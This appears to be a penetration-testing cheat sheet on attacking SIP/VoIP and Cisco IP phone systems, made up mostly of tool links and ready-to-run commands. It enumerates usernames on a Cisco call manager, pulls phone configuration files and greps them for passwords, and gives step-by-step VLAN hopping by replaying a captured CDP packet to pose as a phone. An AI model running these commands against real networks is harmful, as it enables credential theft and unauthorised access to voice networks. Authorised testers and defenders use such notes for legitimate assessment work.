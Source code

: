 ```yaml
---
description: Session Initiation Protocol / Voice over IP
---
```


# SIP / VoIP

- [https://medium.com/vartai-security/practical-voip-penetration-testing-a1791602e1b4](https://medium.com/vartai-security/practical-voip-penetration-testing-a1791602e1b4)
- [https://www.hackingarticles.in/penetration-testing-on-voip-asterisk-server-part-2/](https://www.hackingarticles.in/penetration-testing-on-voip-asterisk-server-part-2/)




## Cisco IP Phones

- [https://www.trustedsec.com/blog/seeyoucm-thief-exploiting-common-misconfigurations-in-cisco-phone-systems/](https://www.trustedsec.com/blog/seeyoucm-thief-exploiting-common-misconfigurations-in-cisco-phone-systems/)
- [https://www.n00py.io/2022/01/unauthenticated-dumping-of-usernames-via-cisco-unified-call-manager-cucm/](https://www.n00py.io/2022/01/unauthenticated-dumping-of-usernames-via-cisco-unified-call-manager-cucm/)
- [https://github.com/n00py/CUCMe/blob/main/cucme.sh](https://github.com/n00py/CUCMe/blob/main/cucme.sh)
- [https://github.com/trustedsec/SeeYouCM-Thief](https://github.com/trustedsec/SeeYouCM-Thief)
- [https://github.com/llt4l/iCULeak.py](https://github.com/llt4l/iCULeak.py)
- [https://github.com/Bond-o/vnum](https://github.com/Bond-o/vnum)

Parse Cisco IP Phone web interfaces to get their host names:

```
$ for i in `cat hosts/phones_ip.txt`; do curl -s http://$i | grep -oP 'SEP[A-Z0-9]+' | uniq | tee -a phones.txt; done
```

Enumerate Cisco IP Phones for usernames:

```
$ bash cucme.sh CUCM01.megacorp.local
Or
$ python3 thief.py -H CUCM01.megacorp.local --userenum
Or
$ curl -sk 'https://cucm01.megacorp.local:8443/cucm-uds/users?lastName=' | grep -oP '<firstName>.*?</firstName><lastName>.*?</lastName>' | sort -u | tee cucm_users.txt
```

Enumerate Cisco IP Phones for credentials leak:

```
$ python3 iCULeak.py -nA -c CUCM01.megacorp.local -l phones.txt 192.168.1.11
Or
$ for i in `cat hosts/phones.txt`; do curl -s http://cucm01.megacorp.local:6970/$i.cnf.xml | grep -i pass; done
```



### VLAN Hopping on Cisco Voice

- [https://savvyadmin.com/vlan-hopping-on-cisco-voice-enabled-switch-ports/](https://savvyadmin.com/vlan-hopping-on-cisco-voice-enabled-switch-ports/)

Capture the first CDP advertisement while plugged through the phone:

```
$ sudo tcpdump -s 0 -w cdp-packet.cap -c 1 -ni eth0 ether host 01:00:0c:cc:cc:cc
$ sudo tcpdump -vr cdp-packet.cap
```

Relay it once a minute to simulate a legit phone device:

```
$ sudo watch -n 60 "tcpreplay -i eth0 cdp-packet.cap"
```

Configure a sub-interface to access the voice VLAN:

```
$ sudo vconfig add eth0 1337
$ sudo ifconfig eth0.1337 up
$ sudo dhclient -v eth0.1337
```
